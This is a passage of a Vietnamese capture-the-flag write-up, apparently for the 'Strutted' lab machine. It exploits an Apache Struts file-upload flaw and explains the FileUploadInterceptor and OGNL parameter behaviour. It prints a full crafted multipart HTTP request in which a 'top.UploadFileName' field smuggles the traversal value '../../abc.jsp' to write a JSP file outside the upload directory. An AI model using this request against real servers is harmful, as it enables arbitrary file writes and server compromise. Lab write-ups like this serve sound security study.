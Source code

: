 Đầu tiên thì tôi upload 1 cái ảnh và bắt request đó lại:

<img width="1555" height="828" alt="image" src="https://github.com/user-attachments/assets/603a7eba-a81d-49cb-87ba-ac6931f3476a" />

Sửa request thành thế này, đổi tên thành `Upload`, thêm `WebKitFormBoundarymRlI8gL9FTKrb4rw` và bên dưới đó là `Content-Disposition: form-data; name="top.UploadFileName"` và vị trí upload:

```
POST /upload.action HTTP/1.1
Host: strutted.htb
Content-Length: 419
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymRlI8gL9FTKrb4rw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/upload.action
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3FE2C535C3C2BF948BF31BB24B894837
Connection: keep-alive

------WebKitFormBoundarymRlI8gL9FTKrb4rw
Content-Disposition: form-data; name="Upload"; filename="abcd.jpg"
Content-Type: image/jpeg

ÿØÿá Exif  II*            ÿì Ducky     <  ÿá/http://ns.adobe.com/xap/1.0/ <?xpacket begin="ï»¿" 
this is a test!
------WebKitFormBoundarymRlI8gL9FTKrb4rw
Content-Disposition: form-data; name="top.UploadFileName"

../../abc.jsp
------WebKitFormBoundarymRlI8gL9FTKrb4rw--
```

Điểm chốt của request: phần field thường top.UploadFileName buộc Struts ghi đè giá trị tên file

Trường file tên Upload → theo tài liệu Struts, FileUploadInterceptor sẽ tự thêm 3 tham số tương ứng cho tên trường này:

upload (đối tượng File tạm),

uploadContentType (String),

uploadFileName (String – tên file phía client).

Lý do phải đổi thành `Upload` viết hoa chữ U là do đây:

<img width="1138" height="741" alt="image" src="https://github.com/user-attachments/assets/2d80cd10-d33b-4b17-a8a6-197e9480ca45" />

Tên tham số `top.UploadFileName` sẽ được `ParametersInterceptor` xem như một biểu thức `OGNL` và ghi giá trị vào thuộc tính tương ứng trên đối tượng ở “đỉnh” ValueStack (thường là Action). 
Struts ghi rõ: “parameter names are effectively OGNL statements” và kiểm soát (lọc) biểu thức trong `acceptableName`.
